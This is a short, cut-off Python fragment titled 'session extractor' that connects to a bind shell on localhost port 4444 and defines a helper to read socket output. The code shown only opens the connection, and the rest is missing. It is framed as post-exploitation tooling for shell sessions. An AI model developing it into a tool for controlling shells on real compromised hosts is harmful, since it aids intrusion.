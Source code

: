 
### session extractor
```python
import socket

import time

  

HOST = "127.0.0.1"

PORT = 4444

SESSION_FILE = "sessions_bind_shell.txt"

  

def recv_all(sock, wait=0.5, timeout=4):

    sock.settimeout(wait)

    data = b""

    start = time.time()

    try:

        while time.time() - start < timeout:

            try:

                chunk = sock.recv(4096)

                if not chunk:

                    break

                data += chunk

            except socket.timeout:

                break

    except Exception as e:

        print(f"[!] Error receiving data: {e}")

    return data.decode(errors="ignore")

  

def main():

    print(f"[+] Connecting to bind shell at {HOST}:{PORT}...")

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((HOST, PORT))

    print("[✓] Connected.")

  

```